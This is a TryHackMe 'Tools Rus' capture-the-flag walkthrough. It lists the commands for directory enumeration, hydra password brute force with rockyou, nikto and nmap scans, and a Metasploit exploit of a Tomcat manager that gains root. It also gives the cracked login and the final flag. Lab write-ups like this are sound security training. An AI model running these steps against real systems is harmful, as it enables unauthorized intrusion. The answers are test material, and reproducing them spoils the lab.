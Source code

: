 # Tools Rus

[Tools Rus](https://tryhackme.com/room/toolsrus)

## Summary

1. `dirb` and `dirbuster` interchangeable
2. `hydra` for brute forcing passwords
3. `nikto` for testing against web services

## Solutions

1. ToysRus

   1. `dirb <IP:PORT>` -> `guidelines`
   2. Go to `IP/guidelines` -> `bob`
   3. Dir with code 401 -> `protected`
   4. `hydra -l bob -P /usr/share/wordlists/rockyou.txt.gz 10.10.86.208 http-get /protected` -> `bubbles`
   5. `nmap -A <IP>` -> `1234`
   6. `Apache Tomcat/7.0.88`
   7. `nikto -port 1234 -host 10.10.86.208 -root /manager/html -id bob:bubbles -output ./nikto_report1234.txt`; `grep -n documentation ./nikto_report1234.txt` -> `5`
   8. `nikto -port 80 -host 10.10.86.208 -root . -output ./nikto_report80.txt` -> `Apache/2.4.18`
   9. nmap result -> `1.1`
   10. Metasploit
       1. `msfdb init`
       2. `msfconsole`
       3. `search CVE-2009-3548`
       4. `use 2`
       5. `show options`
       6. `set RHOSTS 10.10.86.208`
       7. `set RPORT 1234`
       8. `set HttpUsername bob`
       9. `set HttpPassword bubbles`
       10. `run`
       11. `getuid` -> `root`
   11. `cat /root/flag.txt` -> `ff1fc4a81affcc7688cf89ae7dc6e0e1`
